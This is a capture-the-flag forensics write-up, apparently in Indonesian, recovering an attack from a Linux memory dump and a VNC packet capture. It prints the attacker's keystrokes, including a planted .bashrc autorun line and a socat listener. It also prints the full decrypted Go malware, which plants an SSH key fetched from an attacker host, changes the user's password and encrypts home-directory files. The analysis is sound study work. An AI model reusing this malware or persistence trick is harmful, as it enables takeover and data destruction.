

## Judul Soal
Nothing for sure

## Deskripsi Soal
> It was an awkward story, but my personal computer has been attacked by someone. After a while, I found that my public NFS network was still active & infected by a malicious program. <br><br> https://drive.google.com/file/d/1DS7qLzPWW0zO-ycakN_hH6vaIN9QHQ1h/view?usp=sharing

## Hint Soal
- The malicious program did a self-delete operation, but I think it must be stored somewhere.

- If you can't find any file offset, you may specify a RegEx rule to extract specific information from memory.

---

## Penjelasan Penyelesaian Soal

Diberikan berkas `memory.tar.xz` yang memuat berkas memory dump `memory.raw`. Sebagaimana soal memory dump lainnya, terlebih dahulu kita lakukan `information gathering` pada objek evidence yang disediakan.

<br>

**OS & Kernel Identification**

```bash
$ egrep -oa 'BOOT_IMAGE=.* root' -m1 memory.raw                                                                                       
BOOT_IMAGE=/vmlinuz-5.4.0-53-generic root

$ egrep -a 'Release:.*[\d.]+' -m1 memory.raw                                                                                          
Release:	20.04
```

Hasilnya, diketahui bahwa Sistem Operasi & Kernel yang digunakan secara berturut-turut adalah `Ubuntu 20.04` & `5.4.0-53-generic`.

<br>

**Build a Volatility Profile**

Dengan menggunakan script [berikut](https://github.com/hanasuru/vol_profile_builder), kita lakukan pembuatan `volatility profile`. Barulah kemudian kita apply `profile` ke directory `volatility/plugins/overlays/linux`

<br>

**History inspection & assessment**

Dengan menggunakan plugin `linux_bash`, kita dapatkan history dari pengguna

 

Dari sini terlihat bahwa `user` melakukan network logging ke dalam berkas packet data `log.pcapng` yang disimpan pada directory `/mnt/hgfs/Drive`. 

Lebih lanjut, kita lakukan ekstraksi berkas `log.pcapng` untuk mengetahui aktivitas yang dilakukan oleh `attacker` pada PC user, menggunakan plugin `linux_find_file`.

```bash
$ vol.py -f memory.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -F "/mnt/hgfs/Drive/log.pcapng"

$ vol.py -f memory.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -i 0xffff8e01ab7fa3c0 -O log.pcapng
```

Selanjutnya, kita periksa hierarcy dari packet data yang diperoleh. Hasilnya diperoleh VNC log dari `attacker`.

```
❯ tshark -r log.pcapng -q -z io,phs                                                                                                   

===================================================================
Protocol Hierarchy Statistics
Filter: 

eth                                      frames:4012 bytes:487797
  ip                                     frames:4012 bytes:487797
    tcp                                  frames:4012 bytes:487797
      vnc                                frames:2378 bytes:379937
        tcp.segments                     frames:25 bytes:19572
===================================================================
```

Dari sini, kita dapat melakukan `Packet replay` untuk memperoleh visualisasi dari serangan yang dilakukan. Proses ini kita lakukan menggunakan `chaosreader`

```
$ editcap -F pcap log.pcapng log.pcap 
$ chaosreader log.pcap 

❯ ls sess*

session_0001.textVNC.html  session_0001.textVNC.replay  session_0001.VNC.replay

```

**a. Text-mode Replay**

Pertama kita lakukan `text-mode replay` untuk mengetahui keystroke apa saja yang dimasukkan.

```
❯ ./session_0001.textVNC.replay 100                                                        

ping 192.168.0.110
cnmap -sV -p 2049 192.168.0.110
showmount -e 192.168.0.110
nfs-ls ns://192.168.0.110/home/redmask
a -s
af
lmount -t nfs 192.168.0.110:/home/redmask
 /shared
ls -la /shared
lcd /exploit
ls -la
vim -x exploit.go
wibu4lyfe
wibu4lyfe
:wq
cp exploit.go /shared
cp .exploit /shared
vim /shared/.bashrc
o
[[ -f ./.exploit ]] && ./.exploit;:wq
ls -la /shared
lsocat TCP-LISTER:1337,reuseaddr,fork EXEC:"cat keys" &
N
netstat -tulpn
```

**b. Visual-mode Replay**

Kemudian kita lakukan `visual-mode replay` untuk melakukan visualisasi dari VNC desktop


Berdasarkan cuplikan `packet replay` di atas, kita dapat menyimpulkan bahwa `attacker` menyisipkan 2 buah file, yaitu `exploit.go` dan `.exploit` melalui `NFS Network` yang tidak dikonfigurasi dengan benar.

Selanjutnya, melihat berkas `.bashrc` dapat dioverride, `attacker` menyisipkan line untuk mengeksekusi `.exploit` saat `bash` hendak dimuat. 

Hal yang perlu diperhatikan juga ialah berkas `exploit.go` turut dienkripsi menggunakan `vimcrypt` dengan passphrase `wibu4lyfe` :v

<br>

**Malicious Program Acquisition**

Sebelumnya, kita telah mengetahui bahwa terdapat `2 buah berkas` yang diunggah pada PC user. Ada dua buah opsi yang dapat kita lakukan, yaitu mengekstraksi `.exploit` kemudian dilakukan proses `reversing` atau mengekstraksi `exploit.go` kemudian dilakukan proses dekripsi `vimcrypt` dengan passphrase yang telah diperoleh.

Namun, di sini kita akan memilih opsi yang paling mudah, yaitu memahami alur program dari source code `exploit.go`. Untuk itu, kita lakukan pencarian offset file menggunakan plugin `linux_find_file`.

```bash
$ vol.py -f memory2.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -F '/home/redmask/exploit.go'
```

Pada percobaan kali ini, kita melihat bahwa berkas tidak ditemukan. Dari sini, kita berasumsi bahwa bisa jadi program sengaja menghilangkan `trace` dengan cara menghapus dirinya sendiri beserta berkas terkait.

Namun, apabila kita perhatikan pada proses sebelumnya, kita mengetahui bahwa `user` sempat melakukan pengecekan terhadap directory `Thrash` menggunakan `trash-list`. Fakta tersebut memberikan dugaan bahwa bisa jadi berkas `exploit.go` hanya dihapus secara `temporary` dan diletakkan pada `Trash`.

Untuk membuktikan deduksi tersebut, kita lakukan proses ekstraksi sekali lagi pada directory `$HOME/.local/usr/share/Trash/files`.

```bash
$ vol.py -f memory2.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -F '/home/redmask/.local/share/Trash/files/exploit.go'

$ vol.py -f memory2.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -i '0xffff8e01f0fa5f18' -O exploit.go

```

<br>

**Vimcrypt decryption**

Setelah berhasil memperoleh berkas `exploit.go`, kini kita lakukan proses dekripsi `vimcrypt` menggunakan passphrase `wibu4lyfe`. Hasilnya kita peroleh source code sebagai berikut:

```go
package main

import (
        "crypto/aes"
        "crypto/cipher"
        "crypto/rand"
        b64 "encoding/base64"
        "io"
        "io/ioutil"
        "net"
        "os"
        "os/exec"
        "path"
        "path/filepath"
        "strconv"
        "strings"
)

func recv(ip string, port int) string {
        addr := strings.Join([]string{ip, strconv.Itoa(port)}, ":")
        conn, err := net.Dial("tcp", addr)

        if err != nil {
                os.Exit(0)
        }

        defer conn.Close()

        buff := make([]byte, 1024)
        n, _ := conn.Read(buff)

        return string(buff[:n])
}

func populate(pathname string, content string) {
        dir, _ := path.Split(pathname)

        if _, err := os.Stat(dir); os.IsNotExist(err) {
                os.MkdirAll(dir, 0755)
        }

        if _, err := os.Stat(pathname); !os.IsNotExist(err) {
                file, _ := os.OpenFile(pathname, os.O_CREATE|os.O_WRONLY, 0755)
                file.WriteString(content)
                file.Sync()
                file.Close()
        }
}

func execute(command string) {
        _, err := exec.Command("bash", "-c", command).Output()

        if err != nil {
                os.Exit(0)
        }

}

func isHidden(name string) bool {
        if name[0:1] == "." {
                return true
        }

        return false
}

func listFile(root string) ([]string, error) {
        var files []string
        err := filepath.Walk(root, func(path string, info os.FileInfo, err error) error {
                if !info.IsDir() {
                        if !isHidden(path) {
                                files = append(files, path)
                        }
                }
                return nil
        })
        return files, err
}

func encrypt(content []byte, key []byte) string {
        block, _ := aes.NewCipher(key)
        ciphertext := make([]byte, aes.BlockSize+len(content))
        iv := ciphertext[:aes.BlockSize]

        if _, err := io.ReadFull(rand.Reader, iv); err != nil {
                panic(err)
        }

        stream := cipher.NewCFBEncrypter(block, iv)
        stream.XORKeyStream(ciphertext[aes.BlockSize:], content)

        return string(ciphertext)
}

func encryptFile(pathname string, key []byte) {
        files, _ := listFile(pathname)

        for _, file := range files {
                dat, _ := ioutil.ReadFile(file)
                encrypted := encrypt(dat, key)
                populate(file, encrypted)
        }
}

func changepw(passwd string) {
        var sb strings.Builder

        sb.WriteString("echo \"$USER:")
        sb.WriteString(passwd)
        sb.WriteString("\" | sudo chpasswd")
        execute(sb.String())
}

func thrashFile(pathname string) {
        var sb strings.Builder

        sb.WriteString("trash ")
        sb.WriteString(pathname)
        execute(sb.String())

}

func main() {
        key := []byte{114, 101, 100, 109, 97, 115, 107, 95, 95, 95, 115, 101, 99, 114, 101, 116}
        pubkey := recv("192.168.0.101", 1337)
        secret := []byte{99, 109, 86, 107, 98, 87, 70, 122, 97, 51, 116, 117, 77, 51, 90, 108, 99, 108, 57, 115, 90, 84, 82, 50, 90, 86, 56, 61}
        passwd, _ := b64.StdEncoding.DecodeString(string(secret))

        populate(".ssh/authorized_keys", pubkey)
        changepw(string(passwd))
        thrashFile("exploit.go")
        encryptFile(".", key)
        thrashFile(".exploit")
}

```

<br>

**Process Reproduction**

Dari pemahaman source code tersebut, kita dapat mengklasifikasikan alur kerja program sebagaimana berikut ini

1. Program menerima `socket connection` pada `192.168.0.101:1337`. Kemudian data yang diperoleh dimasukkan ke dalam `.ssh/authorized_keys`. Disini kita dapat berasumsi bahwa data tersebut memuat `public_key` dari attacker sehingga dapat melakukan remote access menggunakan `SSH connection`.

2. Program melakukan penggantian `User Password` dengan bytestring pada variable `secret`.

3. Program melakukan enkripsi semua `non-hidden file` menggunakan `AES CFB` yang terdapat pada directory `$HOME` atau `/home/redmask`.

4. Terakhir, program melalukan file deletion `exploit.go` & `.exploit` menggunakan perintah `trash filename`. Dari sini, kita dapat membuktikan asumsi kita sebelumnya bahwa berkas tersimpan pada `Trash` directory.

Berdasarkan kecenderungan di atas, kita dapat berasumsi bahwa terdapat 3 buah potongan flag yang disembunyikan pada berkas tertentu, di antaranya:

- `exploit.go` (diperoleh dari nilai `secret`)
- `mid-flag.txt` (yang telah dienkripsi menggunakan `AES-CFB`)
- `.ssh/authorized_keys`


Dari sini, kita lakukan kembali proses ekstraksi untuk memperoleh berkas yang dibutuhkan.

**a. exploit.go**

Sebelumnya, kita telah mengetahui bahwa berkas `exploit.go` deklarasi sebagai berikut:

```go
secret := []byte{99, 109, 86, 107, 98, 87, 70, 122, 97, 51, 116, 117, 77, 51, 90, 108, 99, 108, 57, 115, 90, 84, 82, 50, 90, 86, 56, 61}
passwd, _ := b64.StdEncoding.DecodeString(string(secret))
```

Berdasarkan operasi tersebut, informasi flag dapat kita peroleh dengan perintah sebagai berikut.

```bash
$ python -c "\
x = [99, 109, 86, 107, 98, 87, 70, 122, 97, 51, 116, 117, 77, 51, 90, 108, 99, 108, 57, 115, 90, 84, 82, 50, 90, 86, 56, 61];
print(''.join(map(chr, x)));
" | base64 -d

redmask{n3ver_le4ve_
```


**b. mid-flag.txt**

Di sini kita telah mengetahui adanya berkas `mid-flag.txt` pada proses `history assesment` dan `packet replay`, sehingga kita dapat menyimpulkan bahwa berkas terletak pada directory `$HOME`.

```
$ vol.py -f memory2.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -F '/home/redmask/mid-flag.txt'

$ vol.py -f memory2.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -i 0xffff8e01f108f480 -O mid-flag.txt
```

Selanjutnya, menggunakan pengetahuan dari `exploit.go` sebelumnya dapat kita lakukan operasi dekripsi `AES-CFB` menggunakan script sebagai berikut

```go
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
	"io/ioutil"
	"os"
)

func decrypt(ciphertext []byte, key []byte) string {
	block, _ := aes.NewCipher(key)
	iv := ciphertext[:aes.BlockSize]
	ciphertext = ciphertext[aes.BlockSize:]

	stream := cipher.NewCFBDecrypter(block, iv)
	stream.XORKeyStream(ciphertext, ciphertext)

	return string(ciphertext)
}

func decryptFile(pathname string, key []byte) {
	dat, _ := ioutil.ReadFile(pathname)
	decrypted := decrypt([]byte(dat), key)
	fmt.Print(decrypted)
}

func main() {
	key := []byte{114, 101, 100, 109, 97, 115, 107, 95, 95, 95, 115, 101, 99, 114, 101, 116}
	decryptFile(os.Args[1], key)
}
```

```bash
$ go run decrypt.go mid-flag.txt                                                                                                
4n_exp0s3d_nf5_5erver_d1r_with0ut
```

Hasilnya diperoleh, informasi kedua dari flag.

**c. .ssh/authorized_keys**

Pada proses terakhir kita akan mengecek apakah informasi `public_key` dari attacker benar-benar memuat informasi ketiga dari flag. Untuk itu, kita lakukan kembali ekstraksi file pada directory `$HOME/.ssh/authorized_keys`.

```bash
vol.py -f memory.raw --profile=LinuxUbuntu20_04-5_4_0-53-genericx64 linux_find_file -F "/home/redmask/.ssh/authorized_keys"                                           

Inode Number                  Inode File Path
---------------- ------------------ ---------
----------------                0x0 /home/redmask/.ssh/authorized_keys

```

Di sini, terlihat bahwa berkas tidak ditemukan. Setelah menelusuri lebih lanjut, kondisi ini disebabkan oleh potongan kode pada fungsi `populate()` yang hanya akan dijalankan ketika telah ada berkas sebelumnya.

```go
if _, err := os.Stat(pathname); !os.IsNotExist(err) {
    file, _ := os.OpenFile(pathname, os.O_CREATE|os.O_WRONLY, 0755)
    file.WriteString(content)
    file.Sync()
    file.Close()
}
```

Hal ini menandakan bahwa `.ssh/authorized_keys` tidak pernah ada sebelumnya sehingga proses injeksi `public_key` tidak dapat dijalankan.

Kendati demikian, karena PC user sebelumnya telah berkomunikasi dengan server `attacker` melalui `socket connection`, secara teknis data telah tersimpan pada memori. Hal ini membuat kita masih dapat mengekstraksi informasi dari `public_key` dengan memanfaatkan `RegEx rule` sebagai berikut:

```bash
❯ egrep -oa 'ssh-\w{3} .* \w+\@\w+' memory.raw                                                                                          
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDb9JKNOy74xx4Actz1dXX4Bd7byrSG6HUgk5hyWvpxxwZwSdpJ7LvPZZAgC5HCBCAOjvux5/Vb0wjrfZo1zlYMxLoQ70Ww5a41V9isdwyC6gMQWIDxFytYcSyrOdecRTe7oLDW5M+sjdGI4quYW58vIYnehCbMZ8bdB4SkS3gpjacLXfUkXVf04FcWVaPd2s2s8MxSYbyguRDHGQ6PH11y2vxMsd3BedRgvW+SzHK5dJ/xG9do87GJxj6iO5F7caXpxtrMG0NSVxLDjkijz0KQYtevfZfTRmQobw/bLLDMWVOE2pUvk0EvkpOey7Ksvg9B+EvwgIfDE4Vqoh5icGaWPLg6q6qz1lOXDXUWvebsNg9i3M/6F5V84sZPVyth9SLqaFLSpjdHQUoskllODdKnyjNPZO0o14P8acG0FBLLOnGYm6+SZ40/J7dPgSBU4dxeqy08ZoRjXLRBCj9Wq4MsAIPLMcrdA/uZDkpy5pqVK1ac137It+SVDYkb0UE8vpU= root@redmask

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDOemiEobatMyldS/6kQWT2FqFygyDyqa2zkV8semFVMVZhK0K/lpJMDih7BC0FM9iVE0bzXKl5L4ORBjwWYscUNRp2e7ghoTEfMU00qU2OiJ2c39q3ZCBW6QVrXl09rt+EcbY3hi5Z4KPmLQRfP9OqR1i3dyrBvVjgeVd9Lv4rX1D8cRrST837SL2lOg06cES4KR7i28d8s+hws6xQdSOJ5jOiOmTBQ6Opck3Cy7wD7cpT20BeguuC2DhMe9K6RfFHTQQu9ox6XunKuJgb52K8Mewm2KHBz7TX5U+DcjE4R3vYm0wGlC+oFAhj/GusbF7vCscArjB2haZ3SD2f6PKbrNZ0C8KCp5adZpmFp/d8Km+CMTMFlmx1w1F1ogk4A4V9jNqKZVur9lKMuGLIh5Jik+PX4T2el+fmr7Y3ZFKJMsKgLRO5OPR4t6h4DPgk5k5SFRzWevb1FcJsRkI4EBe+rS+UC/wnvbdJXHNJJXZt1eMCq6dg9xdp4oxCFipibewQwyBpf2L0i6/4T0dBdxqqCHxp4pk2XfDdXnQBY4yjyNxUmLf1zXQo9LvU0h2ximRn0afJYa/4ArCkUSylV5+Hes5RxmAbQHYNHa1UEDWR987r0nrlnxHTSYg2xxvHPiDuFGYlBKVPGRON60zaUbiB53+EFcMi3LoAU8NwW2Sm3Q== root@XzRueV9wcmVjNHV0MW9uc30K
```

Hasilnya kita memperoleh 2 buah `public_key` dengan hostname masing-masing berupa `redmask` serta `XzRueV9wcmVjNHV0MW9uc30K` yang merupakan `base64` dari informasi flag terakhir. 

```bash
$ base64 -d <<< XzRueV9wcmVjNHV0MW9uc30K
_4ny_prec4ut1ons}

```

*Note: Dikarenakan informasi ketiga dari flag diletakkan pada `hostname` maka secara teknis, kita juga dapat memperolehnya pada saat proses `Packet Replay`, dimana panel `vncviewer` menampilkan `hostname` dari attacker*.


<br>

## Flag

redmask{n3ver_le4ve_4n_exp0s3d_nf5_5erver_d1r_with0ut_4ny_prec4ut1ons}